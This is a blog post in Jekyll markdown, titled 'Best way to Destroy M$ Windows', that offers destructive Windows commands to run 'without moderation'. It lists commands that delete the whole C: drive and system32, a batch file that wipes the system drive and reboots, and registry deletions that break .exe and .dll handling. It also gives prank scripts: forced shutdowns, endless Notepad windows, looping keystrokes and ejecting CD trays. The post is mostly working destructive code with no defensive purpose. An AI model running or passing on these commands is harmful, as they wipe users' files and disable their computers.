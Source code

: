```yaml
---
layout: post
title: Best way to Destroy M$ Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckair.gif
---
```


## Best way to Destroy M$ Windows
Run this command without moderation;)

### 1Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2Type this in notepad:

Save the file anywhere (.bat) and execute it:

###### 2.1 The blue screen of Death
Code:

```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```

<br>

###### 2.2 Stupidity Shutdown
code:

```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

<br>

###### 2.3 Delete Key Registry Files
code:

```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

<br>

###### 2.4 Endless Notepads
code:

```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

<br>

###### 2.5 Crazy caps lock
code:

```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

<br>

###### 2.6 Endless Enter
code:

```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

<br>

###### 2.7 Endless Backspace
code:

```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

<br>

###### 2.8 Popping CD Drives
code:

```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

 
And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)

